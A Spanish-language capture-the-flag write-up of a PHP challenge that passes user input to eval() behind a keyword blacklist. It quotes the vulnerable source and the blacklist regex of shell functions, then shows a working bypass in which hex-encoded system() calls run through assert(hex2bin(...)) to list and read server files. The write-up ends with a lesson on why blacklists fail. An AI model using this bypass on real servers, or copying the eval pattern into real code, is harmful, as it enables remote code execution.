



# Evil oR nOt

### am i evil or not ? 

### [Link](http://172.174.108.207:8080/evil/)

### Author :Mo0Ssaa
---

Al abrir la URL, obtenemos el código fuente de la página, incluido código php.  
```php
<?php
error_reporting(0);

if (isset($_POST['submit']))
{    
  $x = strtolower($_POST['txt']);
  $reg="/system|exec|eval|passthru|file|open|php|include|require|show|get_all_headers|curl\`/im";

  if(preg_match($reg,$x))
  {
    echo "Try harder";
  } 
  else 
  {   
    eval($x);
  }
        
}
else
{
  show_source(__FILE__);
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Get sad shell</title>
</head>
<body>
    <form action="" method="POST">
    <center>
    <p>Get sad shell</p>
    <input type="text" name="txt"><br />
    <input type="submit" name="submit">
    <br><br><br><br><br><br><br><br><br><br><br><br><br><br>
    </center>
    
    </form>
</body>
</html>
```
También un pequeño form:


En este caso nos interesa el código de php, se ve claramente que esto va a terminar en remote code execution, todo por el eval($x), probemos con:   
`echo "dsa2022"`;



Vemos que aparece la salida.

Entonces lo que tenemos que hacer es llegar al eval para ejecutar código, pero sin usar ninguna de las instrucciones que estan en la expresión regular, una posible solución es usar `assert` junto con base64_decode... eso no funciona, ya que base 64 tiene en su alfabeto las mayúsculas, y la línea `$x = strtolower($_POST['txt']);` pasa todo a minúscula, se necesita una forma de encodear donde se usen solo minúsculas o no importe el case, podría ser hexadecimal, entonces probamos usamos `bin2hex` a nivel local para encodear a hexadecimal y `hex2bin` en el servidor para ejecutar remoto:

```php
echo bin2hex('system("ls")');
```
Salida: 73797374656d28226c732229

Exploit:
```php
assert(hex2bin("73797374656d28226c732229"));`
```



Despues de una pruebas más llegamos a:

```php
echo bin2hex('system("cat ../test.txt")');
```
Salida: 73797374656d2822636174202e2e2f746573742e7478742229

```php
assert(hex2bin("73797374656d2822636174202e2e2f746573742e7478742229"));
```


Flag: 0xL4ugh{Ev!l_!5_Alw@ys_Evill}

La vulnerabilidad está en permitir que se ejecute `eval`, una función que el propio lenguaje php desaconseja su uso, la otra es pensar que hacer una lista negra de palabras como filtro va a funcionar para todos los casos. No se me ocurre un fix, ya que la aplicación no hace nada, pero si me parece un excelente ejemplo de porque no usar listas negras.